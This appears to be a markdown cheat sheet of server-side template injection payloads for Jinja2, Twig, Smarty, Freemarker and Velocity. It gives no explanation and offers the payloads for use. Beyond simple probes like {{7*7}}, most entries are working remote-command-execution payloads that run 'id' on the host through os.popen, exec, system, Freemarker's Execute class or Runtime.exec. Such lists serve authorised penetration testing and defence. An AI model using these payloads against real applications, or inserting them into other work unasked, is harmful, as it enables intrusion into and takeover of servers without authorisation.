 ```yaml
---
layout: default
title: Template Injection Payloads
---
```


# 📝 Template Injection Payloads

## Jinja2 (Python)
```
{{7*7}}
{{config}}
{{''.__class__.__mro__[2].__subclasses__()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

## Twig (PHP)
```
{{7*7}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
```

## Smarty (PHP)
```
{$smarty.version}
{php}echo `id`;{/php}
{literal}{php}echo `id`;{/php}{/literal}
```

## Freemarker (Java)
```
${7*7}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
${"freemarker.template.utility.Execute"?new()("id")}
```

## Velocity (Java)
```
#set($ex=$rt.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
```